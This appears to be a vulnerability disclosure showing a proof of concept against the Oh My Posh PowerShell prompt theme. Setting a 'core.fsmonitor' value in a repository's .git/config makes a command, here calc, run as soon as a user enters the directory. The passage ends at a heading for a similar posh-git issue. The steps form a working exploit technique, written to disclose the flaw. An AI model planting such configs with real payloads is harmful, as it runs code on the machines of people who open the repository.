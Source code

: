 Enable the jandedobbeleer Prompt Theme for the current PowerShell session:

```plain
PS C:\Users\justin> Set-PoshPrompt -Theme jandedobbeleer
 justin    ~  羽696ms                                    powershell   100  18:56:43 
```

Create an empty Git repo:

```plain
 justin    ~  羽31ms    mkdir poc                        powershell   100  18:57:14 


    Directory: C:\Users\justin


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        25/07/2021   6:57 PM                poc


 justin    ~  羽31ms    git -C poc init                  powershell   100  18:57:55 
Initialized empty Git repository in C:/Users/justin/poc/.git/
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
 justin    ~  羽16ms   > Add-Content .\poc\.git\config "`tfsmonitor = calc"       18:59:04 
 justin    ~  羽33ms    type .\poc\.git\config           powershell   100  18:59:33 
[core]
        repositoryformatversion = 0
        filemode = false
        bare = false
        logallrefupdates = true
        symlinks = false
        ignorecase = true
        fsmonitor = calc
```

`cd` into the directory containing the malicious `.git` directory:

```plain
 justin    ~  羽32ms    cd poc                           powershell   100  19:00:01 
```

Observe that `calc.exe` pops.

## posh-git - Arbitrary Command Execution
